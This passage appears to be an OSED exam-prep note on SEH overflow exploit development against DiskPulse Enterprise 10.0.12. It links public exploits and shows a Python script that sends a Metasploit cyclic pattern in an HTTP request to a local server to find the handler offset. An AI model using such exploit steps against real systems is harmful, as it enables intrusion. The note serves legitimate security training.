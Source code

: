 ```yaml
---
description: Structured Exception Handling Overflow (EXP-301 Edit)
---
```


# OSED SEH Overflow

- [https://jasonturley.xyz/windows-exploit-development-part-2-structured-exception-handler-seh-overflow/](https://jasonturley.xyz/windows-exploit-development-part-2-structured-exception-handler-seh-overflow/)
- [https://github.com/stephenbradshaw/vulnserver](https://github.com/stephenbradshaw/vulnserver)

All you need to know about the SEH Overflow challenge for OSED exam preparation.

The example below was made when building an exploit for DiskPulse Enterprise v10.0.12. Other versions of this exploit are:

- [https://www.exploit-db.com/exploits/42778](https://www.exploit-db.com/exploits/42778)
- [https://github.com/snowcra5h/DiskPulse-Exploit](https://github.com/snowcra5h/DiskPulse-Exploit)




## 1. Determine Exception Handler Offset

Generate a unique pattern and feed it to the vulnerable application.

{% code title="sehof_send_pattern.py" %}
```python
#!/usr/bin/env python3

import socket

host = '127.0.0.1'
port = 80

# msf-pattern_create -l 6000
buf = b'<UNIQUE_PATTERN>'

request  = b'GET /' + buf + b'HTTP/1.1' + b'\r\n'
request += b'Host: ' + host.encode() + b'\r\n'
request += b'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:31.0) Gecko/20100101 Firefox/31.0 Iceweasel/31.8.0' + b'\r\n'
request += b'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' + b'\r\n'
request += b'Accept-Language: en-US,en;q=0.5' + b'\r\n'
request += b'Accept-Encoding: gzip, deflate' + b'\r\n'
request += b'Connection: keep-alive' + b'\r\n\r\n'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
s.send(request)
s.close()
```
{% endcode %}
